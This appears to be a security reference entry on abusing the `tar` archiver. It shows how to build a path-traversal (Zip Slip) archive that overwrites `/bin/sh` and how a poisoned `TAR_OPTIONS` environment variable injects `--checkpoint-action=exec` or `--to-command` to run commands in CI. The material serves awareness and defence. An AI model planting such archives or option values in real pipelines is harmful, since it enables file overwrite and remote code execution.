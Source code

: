 ```yaml
---
title: tar
tags:
- cli
- input-file
- env-var
references: https://man.freebsd.org/cgi/man.cgi?tar(1)#SECURITY
files: ['*.tar', '*.tar.gz', '*.tar.xz', '*.tar.tz', '*.tar.bz2', '*.tar.z']
---
```


`tar` is a widely used archiver.

## Zip Slip

If `tar` uses `-P` or `--absolute-names`, it is vulnerable to [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability), where a malicious archive can overwrite files in any parent directories. It can be used to:
  - Poison the source code
  - Replace an executable or a config file which can lead to RCE
To create a malicious archive:
```sh
tar cPf zipslip.tar ../../../../../../bin/sh
```

Vulnerable scenario:
```sh
tar xPf zipslip.tar
```

## Environnement variable

`tar` prepend **TAR_OPTIONS** env variable to every call. Quotes in the **TAR_OPTIONS** cause a buffer overflow. A workaround is to escape spaces with backslash. See [Using tar Options](https://www.gnu.org/software/tar/manual/html_section/using-tar-options.html). If the environment variable of a CI can be poison, **TAR_OPTIONS** can lead to RCE via:
```sh
export TAR_OPTIONS="--checkpoint=1 --checkpoint-action=exec=echo\ hello\ world"
tar cf test.tar empty.txt # Any tar command

export TAR_OPTIONS='--to-command=echo\ test' # Only works with extraction
tar xf test.tar # Every file will be sent to the command
```
